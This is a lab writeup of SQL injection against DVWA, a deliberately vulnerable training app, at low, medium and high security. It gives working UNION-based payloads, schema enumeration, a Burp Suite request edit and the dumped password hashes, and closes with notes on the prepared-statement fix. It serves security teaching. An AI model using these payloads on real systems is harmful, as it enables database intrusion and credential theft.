










# DVWA SQL Injection Writeup

**Difficulty Levels Covered:** Low | Medium | High  
**Vulnerability Class:** CWE-89 — Improper Neutralization of Special Elements used in an SQL Command  
**Tools Used:** Burp Suite, Browser DevTools

---

## What is SQL Injection?

SQL Injection occurs when user-supplied input is inserted directly into a SQL query without sanitization. The database cannot distinguish between the developer's intended query structure and the attacker's injected commands — so it executes both. The attacker effectively gets to write part of the query themselves.

---

## Low Security

### What the Code Does Wrong

The application fetches the `id` parameter directly from the HTTP request and concatenates it straight into the SQL query with zero filtering:

```php
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die(...);
```


Whatever the user sends as `id` becomes part of the query. There is no sanitization, no type checking, no prepared statements — nothing standing between user input and the database.

### Exploitation — Step by Step

The attack strategy follows a logical progression: break out of the query, confirm injection works, enumerate the database structure, then extract the data you want.

**Step 1 — Confirm the injection point**

First confirm the field is injectable by breaking the query syntax intentionally:

```
1'
```

If the page throws a SQL error, the input is being interpreted by the database — injection is confirmed.

**Step 2 — Determine column count**

UNION-based injection requires matching the number of columns in the original query. The original query selects two columns (`first_name`, `last_name`), so all UNION payloads use two columns. `null` is used as a safe placeholder:

```sql
1' UNION SELECT null, null#
```

**Step 3 — Extract database version and name**

```sql
1' UNION SELECT null, version()#
1' UNION SELECT null, database()#
```

The `#` character is a MySQL comment — it causes the database to ignore everything after it in the original query, including the closing quote and semicolon. This is what allows the injected UNION to execute cleanly.

**Output observed:**
```
ID: 1' UNION SELECT null, version()#
First name: admin
Surname: 10.1.26-MariaDB-0+deb9u1
```

The database version is now leaked. This matters because different versions have different exploitable features and syntax quirks.

**Step 4 — Enumerate table names**

```sql
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database()#
```

`information_schema` is a built-in MySQL database that stores metadata about all other databases — table names, column names, data types. Querying it is a standard enumeration technique.



**Output observed:** Tables `guestbook` and `users` are present.

**Step 5 — Enumerate columns within the target table**

```sql
1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'#
```



**Columns discovered:** `user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login`, `failed_login`

**Step 6 — Extract credentials**

```sql
1' UNION SELECT user, password FROM users#
```


**Output observed:**
```
First name: admin       Surname: 5f4dcc3b5aa765d61d8327deb882cf99
First name: gordonb     Surname: e99a18c428cb38d5f260853678922e03
First name: 1337        Surname: 8d3533d75ae2c3966d7e0d4fc69216b
First name: pablo       Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
First name: smithy      Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

These are MD5 hashes — crackable in seconds using any online hash lookup tool. `5f4dcc3b5aa765d61d8327deb882cf99` is the MD5 hash of `password`.

### Why Low Was Exploitable

The root cause is a single line: `$id = $_REQUEST['id']`. The value goes directly from the HTTP request into the SQL query. There is no sanitization layer of any kind.

---

## Medium Security

### What Changed

The input method changed from a free-text field to a dropdown menu — at first glance this appears to prevent injection since there is nowhere to type. However the protection is entirely UI-side. The backend still has a vulnerability:

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```


Two things to note here:
- `mysqli_real_escape_string` escapes special characters like quotes — but the query uses no quotes around `$id`. Escaping quotes is useless when the parameter is unquoted in an integer context.
- The `id` value is still concatenated directly into the query.

### Bypassing the Dropdown — Burp Suite

Since the restriction is only in the browser UI, intercepting and modifying the HTTP request before it reaches the server bypasses it entirely:

1. Open Burp Suite and launch its built-in browser
2. Navigate to the DVWA SQL Injection page
3. Enable **Intercept** under the Proxy tab
4. Select any value from the dropdown and click Submit
5. The raw HTTP request appears in Burp Suite before it is sent
6. Edit the `id` parameter in the request body directly:

```
id=1 UNION SELECT user,password FROM users#&Submit=Submit
```


7. Click **Forward** to send the modified request

Since the column enumeration was already done at Low level, credentials can be extracted directly without repeating the reconnaissance steps.

**Output observed:** Same credential dump as Low — all user hashes extracted successfully.

### Why Medium Was Still Exploitable

The developer attempted to fix the vulnerability by removing the text input field. This is security through obscurity — a UI-level restriction that provides no protection once the attacker operates at the HTTP layer. `mysqli_real_escape_string` also provides no defence here because the `id` parameter is used in an integer context without quotes, making quote-escaping irrelevant.

---

## High Security

### What Changed

Two visible changes at this level:
- The input is now delivered through a separate popup window
- The query has a `LIMIT 1` clause added:



```php
$id = $_SESSION['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

`LIMIT 1` restricts the query to returning only one row. This is a cosmetic restriction, not a security control.

### Exploitation

The payload structure is identical to Low. The `#` comment character causes the database to discard the `LIMIT 1` entirely before evaluating it:

```sql
1' UNION SELECT user, password FROM users#
```

Everything after `#` — including `LIMIT 1` — is treated as a comment and ignored. The full credential dump is returned.


### Why High Was Still Exploitable

`LIMIT 1` limits the number of rows returned by the original query — it has no bearing on what an injected UNION clause can return. The fundamental vulnerability remains unchanged: user input is still concatenated into the query string without using parameterized queries. The `LIMIT` addition gives the appearance of hardening without addressing the actual attack surface.

---

## How to Actually Fix This — Developer Notes

The correct fix is **parameterized queries (prepared statements)**. This separates query structure from data at the protocol level — the database receives the query template and the user data separately, so user input can never be interpreted as SQL syntax regardless of what it contains:

```php
// Vulnerable — string concatenation
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";

// Secure — parameterized query
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

Additional hardening measures:
- Apply **least privilege** to the database user — the application account should not have access to `information_schema` or any tables it does not need
- Implement a **WAF** as a secondary layer, not a primary defence
- Never display raw database errors to users — error messages leak schema information directly to attackers

---

## Key Takeaway

SQL Injection is not a UI problem — it is a backend problem. Removing input fields, adding dropdowns, or restricting the number of returned rows does nothing if user-controlled data is still concatenated into SQL queries. The only real fix is parameterized queries. Every other measure is a speed bump, not a wall.

---
Read it on Medium: https://medium.com/@khanmughees587/dvwa-sql-injection-c1bb8786200d

*Part of the [DVWA Writeup Series](../README.md)*  
*Next: SQL Injection (Blind)*
